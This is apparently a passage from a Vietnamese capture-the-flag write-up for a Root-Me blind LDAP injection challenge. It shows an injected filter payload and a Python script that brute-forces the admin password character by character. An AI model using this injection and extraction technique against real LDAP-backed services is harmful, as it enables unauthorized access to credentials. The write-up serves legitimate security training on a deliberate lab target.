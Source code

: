 - Thử với payload dưới, ta thấy nó không bị filter:

```
admin*)(mail=admin@ch26.challenge01.root-me.org
```

![1](img/65/Screenshot%20from%202023-02-01%2023-12-47.png)

- Viết payload để brute-force password:

```python
import requests
flag = ""
url="http://challenge01.root-me.org/web-serveur/ch26/action=dir&search=admin*)(password="
for i in range(1,20):
    check = False
    for j in range(39,127):
        pw = flag + chr(j)
        r = requests.get(url=url+pw)
        if("admin" in r.text):
            flag+=chr(j)
            print(flag)
            check = True
        if(check):
            break
print(flag)
```

